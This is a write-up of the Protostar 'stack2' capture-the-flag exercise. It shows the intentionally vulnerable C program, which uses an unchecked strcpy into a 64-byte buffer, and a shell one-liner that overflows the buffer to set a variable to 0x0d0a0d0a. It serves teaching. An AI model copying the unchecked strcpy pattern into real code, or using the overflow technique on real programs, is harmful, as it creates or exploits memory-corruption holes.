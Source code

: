 ```yaml
---
title: Protostar Writeup - stack2
updated: 2018-07-26 21:00
---
```


## Protostar - stack2

The aim of this challenge is to again change the modified variable, except that this one has a slight change.
We need to set an environment variable called `GREENIE`, whose value will be copied into buffer using the `strcpy()` method.
Here's the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
```

We need to some how get the value from buffer into the `modified` variable. So this is a standard stack overflow attack.
Now the question is how do we overflow the stack? The `strcpy()` method looks like the only thing we can exploit.
So lets take a look at the man pages. We find what we're and we don't have to look far.

> Beware of buffer overruns!

This confirms that we will be exploiting this method. First things first. We need the buffer length.
From the code we see that it's 64 bytes, something familiar we've seen in the [previous]() problem.
Our padding is therefore 64 bytes and another thing is the value which we need to set. This is `0x0d0a0d0a`.
Keep in mind that this will have to be written in the little endian format.
Here's what our environment variable will look like.

```shell
$ export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
```

After setting the environment variable, let's check whether it works.

```shell
$ ./stack2
you have correctly modified the variable
```

That was simple, since we had some intuition from the previous exercises. That's why the Protostar challenge is a good place to start.
Everything is organised. So each level depends on knowledge obtained in the previous levels.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
